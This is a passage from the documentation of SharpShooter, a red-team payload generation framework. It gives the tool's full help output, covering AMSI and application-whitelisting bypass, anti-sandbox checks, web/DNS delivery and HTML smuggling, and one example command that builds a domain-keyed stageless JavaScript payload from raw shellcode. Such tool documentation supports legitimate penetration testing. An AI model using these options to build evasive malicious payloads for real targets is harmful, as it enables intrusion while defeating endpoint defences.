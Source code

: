 Running SharpShooter with the --help argument will produce the following output:

```
usage: SharpShooter.py [-h] [--stageless] [--dotnetver <ver>] [--com <com>]
                       [--awl <awl>] [--awlurl <awlurl>] [--payload <format>]
                       [--sandbox <types>] [--amsi <amsi>] [--delivery <type>]
                       [--rawscfile <path>] [--shellcode] [--scfile <path>]
                       [--refs <refs>] [--namespace <ns>] [--entrypoint <ep>]
                       [--web <web>] [--dns <dns>] [--output <output>]
                       [--smuggle] [--template <tpl>]

optional arguments:
  -h, --help          show this help message and exit
  --stageless         Create a stageless payload
  --dotnetver <ver>   Target .NET Version: 2 or 4
  --com <com>         COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
  --awl <awl>         Application Whitelist Bypass Technique: wmic, regsvr32
  --awlurl <awlurl>   URL to retrieve XSL/SCT payload
  --payload <format>  Payload type: hta, js, jse, vba, vbe, vbs, wsf
  --sandbox <types>   Anti-sandbox techniques:
                      [1] Key to Domain (e.g. 1=CONTOSO)
                      [2] Ensure Domain Joined
                      [3] Check for Sandbox Artifacts
                      [4] Check for Bad MACs
                      [5] Check for Debugging
  --amsi <amsi>       Use amsi bypass technique: amsienable
  --delivery <type>   Delivery method: web, dns, both
  --rawscfile <path>  Path to raw shellcode file for stageless payloads
  --shellcode         Use built in shellcode execution
  --scfile <path>     Path to shellcode file as CSharp byte array
  --refs <refs>       References required to compile custom CSharp,
                      e.g. mscorlib.dll,System.Windows.Forms.dll
  --namespace <ns>    Namespace for custom CSharp,
                      e.g. Foo.bar
  --entrypoint <ep>   Method to execute,
                      e.g. Main
  --web <web>         URI for web delivery
  --dns <dns>         Domain for DNS delivery
  --output <output>   Name of output file (e.g. maldoc)
  --smuggle           Smuggle file inside HTML
  --template <tpl>    Name of template file (e.g. mcafee)
```

Examples of some use cases are provided below:

### Stageless JavaScript ###

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.
